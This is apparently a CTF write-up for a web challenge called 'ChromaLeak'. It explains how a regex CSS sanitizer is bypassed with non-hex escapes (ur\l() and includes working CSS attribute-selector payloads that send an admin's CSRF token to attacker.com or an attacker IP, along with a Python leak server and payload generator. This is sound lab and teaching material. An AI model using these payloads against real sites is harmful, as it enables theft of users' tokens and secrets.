

# ChromaLeak — Writeup

**Category:** Web
**Flag:** `Pioneers25{css_3sc4p3s_b3y0nd_h3x}`

---

## Challenge Overview

**ChromaLeak** is a note-sharing platform where users can create notes with custom CSS themes. The application implements a sophisticated **multi-pass CSS sanitizer** designed to prevent malicious CSS injection. An admin bot periodically reviews reported notes while authenticated, and the admin's CSRF token (hidden in the page HTML) contains the flag.

> *"Welcome to ChromaLeak, a note-sharing platform where you can style your notes with custom CSS themes!"*
>
> *"Our security team has implemented a state-of-the-art multi-pass CSS sanitizer with defense-in-depth to prevent any malicious CSS. They've blocked `url()`, `@import`, `@font-face`, CSS hex escapes, and more. Three whole passes of sanitization — surely nothing can get through... right?"*

**Objective:** Steal the admin's CSRF token using CSS injection.



---

## Deployment

### Docker (Recommended)

```bash
docker-compose up --build
```

The challenge will be available at `http://localhost:3000`.

### Manual Setup

```bash
npm install
node server.js
```

> **Note:** Puppeteer requires Chrome/Chromium for the admin bot.

---

## Reconnaissance

### 1. Initial Exploration

The application offers the following features:
- **User registration and login**
- **Create notes** with optional custom CSS themes
- **Report notes** to the admin for review
- View CSS sanitizer source code at `/source`


### 2. Understanding the Admin Bot

The admin bot (`bot.js`) visits reported pages while **authenticated**. Every page rendered for logged-in users includes a hidden CSRF token:

```html
<input type="hidden" name="csrf_token" value="Pioneers25{...}">
```

This CSRF token is our target — it contains the flag.

### 3. Analyzing the CSS Sanitizer

The sanitizer (`utils/sanitizer.js`) performs **three passes** of filtering with the following rules:

#### Blocked Patterns:

| Pattern | Regex | Purpose |
|---------|-------|---------|
| `url(` | `/url\s*\(/gi` | Prevent external resource loading |
| `@import` | Case-insensitive match | Block CSS imports |
| `@font-face` | Case-insensitive match | Block custom fonts |
| `@namespace` | Case-insensitive match | Block namespace declarations |
| `expression()` | `/expression\s*\(/gi` | IE-specific JS execution |
| `javascript:` | Case-insensitive match | JS protocol handler |
| `behavior:` | Case-insensitive match | IE-specific behaviors |
| `-moz-binding:` | Case-insensitive match | Firefox XBL bindings |
| **CSS hex escapes** | `/\\[0-9a-fA-F]{1,6}\s?/g` | Block hex-encoded characters |
| HTML tags | `/<[^>]*>/g` | Strip HTML tags |

#### Defense-in-Depth Strategy:

The sanitizer runs **three consecutive passes** with the same rules, attempting to catch nested/re-encoded payloads that might survive the first pass.

---

## Vulnerability Analysis

### The Critical Flaw: Non-Hex CSS Escapes

The hex escape filter is defined as:

```javascript
/\\[0-9a-fA-F]{1,6}\s?/g
```

This regex **only catches backslash followed by hexadecimal digits** (0-9, a-f, A-F).

However, according to the CSS specification, escape sequences have **two forms**:

1. **Hex escapes:** `\[0-9a-fA-F]{1,6}` followed by optional whitespace
2. **Non-hex escapes:** `\` followed by **any non-hex character**, which resolves to that literal character

### Examples of Non-Hex Escapes:

| Escape Sequence | Resolves To | Why? |
|-----------------|-------------|------|
| `\l` | `l` | `l` is not in `[0-9a-fA-F]` |
| `\g` | `g` | `g` is not in `[0-9a-fA-F]` |
| `\z` | `z` | `z` is not in `[0-9a-fA-F]` |
| `\(` | `(` | `(` is not in `[0-9a-fA-F]` |

### The Bypass:

We can write `ur\l(` to bypass both filters:

1. **Not matched by** `/url\s*\(/gi` — The literal text is `ur\l(`, not `url(`
2. **Not matched by** `/\\[0-9a-fA-F]{1,6}/g` — Because `l` is NOT a hex digit
3. **Parsed by browsers as `url(`** — CSS engines resolve `\l` → `l`, making it `url(`

---

## Exploitation

### Attack Vector: CSS Attribute Selector + External Resource Loading

CSS attribute selectors can test if an HTML attribute's value starts with a specific prefix:

```css
input[name="csrf_token"][value^="Pioneers25{a"] {
    background-image: ur\l(http://attacker.com/leak?char=a);
}
```

**How it works:**

1. The selector matches **only if** `csrf_token`'s value starts with `"Pioneers25{a"`
2. If matched, the browser tries to load `http://attacker.com/leak?char=a`
3. The attacker's server receives the request and knows `'a'` is the next character
4. Repeat for each character to exfiltrate the entire flag

### Step-by-Step Exploitation

#### 1. Set Up the Leak Server

Create an HTTP server to log incoming requests:

```python
from http.server import HTTPServer, BaseHTTPRequestHandler
import urllib.parse

class LeakHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        params = urllib.parse.parse_qs(urllib.parse.urlparse(self.path).query)
        if 'char' in params:
            print(f"[+] Leaked character: {params['char'][0]}")
        self.send_response(200)
        self.end_headers()

server = HTTPServer(('0.0.0.0', 8888), LeakHandler)
print("[*] Leak server listening on port 8888")
server.serve_forever()
```

#### 2. Generate CSS Payload

For each round, generate rules for all possible next characters:

```python
def generate_css(known_prefix, attacker_url):
    charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}"
    css_rules = []

    for char in charset:
        test_value = known_prefix + char
        rule = f'''
        input[name="csrf_token"][value^="{test_value}"] {{
            background-image: ur\\l({attacker_url}?char={char});
        }}
        '''
        css_rules.append(rule)

    return "\n".join(css_rules)

# Example usage:
css_payload = generate_css("Pioneers25{", "http://YOUR_IP:8888/leak")
```

#### 3. Create and Report the Note

1. Register an account on ChromaLeak
2. Create a new note with the generated CSS payload as the theme
3. Report the note URL to the admin bot
4. Wait for the admin bot to visit
5. Check your leak server logs for the next character
6. Append the discovered character to the known prefix
7. Repeat steps 2-6 until you hit `}`

---

## Automated Solver

The `solver.py` script automates the entire process:

```bash
# Edit solver.py to set your attacker IP
python solver.py
```

**How the solver works:**

1. Starts a background HTTP server to capture leaks
2. Registers an account on the target
3. Iteratively generates CSS payloads for character-by-character exfiltration
4. Creates notes with the CSS payload
5. Reports each note to the admin bot
6. Captures the leaked character from the HTTP server
7. Continues until the full flag is recovered

---

## Example Run

```
[*] Starting leak server on port 8888...
[*] Registering account...
[*] Account registered: user_abc123
[*] Known prefix: Pioneers25{
[*] Generating CSS payload for round 1...
[*] Creating note with CSS theme...
[*] Reporting note to admin...
[+] Leaked character: c
[*] Known prefix: Pioneers25{c
[*] Generating CSS payload for round 2...
[*] Creating note with CSS theme...
[*] Reporting note to admin...
[+] Leaked character: s
[*] Known prefix: Pioneers25{cs
...
[+] FLAG: Pioneers25{css_3sc4p3s_b3y0nd_h3x}
```

---

## Key Takeaways

### 1. CSS Escape Sequences Are Richer Than Hex

The CSS specification allows **two types** of escape sequences:
- **Hex escapes:** `\[0-9a-fA-F]{1,6}`
- **Non-hex escapes:** `\[any character]`

Many developers (and sanitizers) only consider hex escapes, creating bypass opportunities.

### 2. Regex-Based Sanitizers Are Fragile

The sanitizer's regex `/\\[0-9a-fA-F]{1,6}/g` creates a gap between what it blocks (hex escapes) and what CSS engines accept (all escapes). This narrow focus allows `\l`, `\g`, `\z`, etc., to slip through.

### 3. CSS Can Exfiltrate Data

CSS attribute selectors combined with external resource loading (`url()`) enable powerful data exfiltration attacks:
- **Attribute selectors** conditionally apply styles based on attribute values
- **External resources** trigger HTTP requests that leak data to attacker-controlled servers

### 4. Defense-in-Depth ≠ Security

Running the same flawed filter **three times** doesn't fix the underlying vulnerability. Multiple layers of the same broken logic provide a false sense of security.
